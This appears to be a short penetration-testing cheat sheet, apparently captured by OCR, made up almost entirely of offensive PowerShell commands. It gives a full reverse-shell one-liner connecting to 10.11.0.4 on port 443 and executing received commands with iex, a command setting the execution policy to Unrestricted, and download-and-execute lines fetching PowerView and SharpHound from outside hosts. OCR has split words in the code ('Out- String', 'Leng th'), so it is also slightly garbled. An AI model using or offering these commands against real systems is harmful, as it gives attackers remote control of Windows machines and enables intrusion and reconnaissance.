 ## Powershell reverse shell one liner

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out- String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng th);$stream.Flush();}$client.Close()"
```
#### Powershell

Set execution policy

`Set-ExecutionPolicy Unrestricted -Scope CurrentUser`

`(new-object System.Net.WebClient).DownloadFile('http://192.168.119.175:8000/powerview.ps1','C:\Users\offsec\Desktop\powerview.ps1')`

`IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1')`
